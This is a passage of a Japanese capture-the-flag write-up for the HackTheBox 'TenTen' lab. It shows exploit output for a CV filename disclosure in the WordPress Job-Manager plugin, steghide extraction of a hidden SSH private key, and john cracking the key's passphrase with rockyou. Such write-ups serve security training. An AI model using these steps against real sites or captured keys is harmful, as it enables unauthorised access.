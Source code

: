 ```bash
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg

```
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Medium/TenTen/images/Pasted%20image%2020241227111917.png)

ステガノグラフィーかもしれないので、どのような情報が含まれているのかをみる。
秘密鍵が含まれているらしい。
```bash
└──╼ [★]$ sudo steghide info *.jpg
"HackerAccessGranted.jpg":
  format: jpeg
  capacity: 15.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "id_rsa":
    size: 1.7 KB
    encrypted: rijndael-128, cbc
    compressed: yes

```

抽出する。
パスワードは特にないので、Enter押すだけで大丈夫
```bash
└──╼ [★]$ sudo steghide extract -sf *.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".
```

出力された`id_rsa`がどのようなRSA鍵であるかを解析するために、`john`を用いて複合する。複合を行うには、まず現在の`id_rsa`ファイルを`.john`形式に変換する必要がある。
そのため、以下のコードで、rsaを.johnに変えるためのスクリプトを検索する。出力された`/usr/share/john/ssh2john.py`を利用する。このスクリプトを使うことで、取得したRSA暗号を`john`で解析可能な`.john`形式に変換できる。
```bash
sudo find / -iname *2john* -type f 2>/dev/null
```

johnで解析したら、パスワードが「superpassword」であることがわかった。
```bash
└──╼ [★]$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
superpassword    (id_rsa)     
1g 0:00:00:00 DONE (2024-12-26 10:03) 1.724g/s 1344Kp/s 1344Kc/s 1344KC/s superram..supermoy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
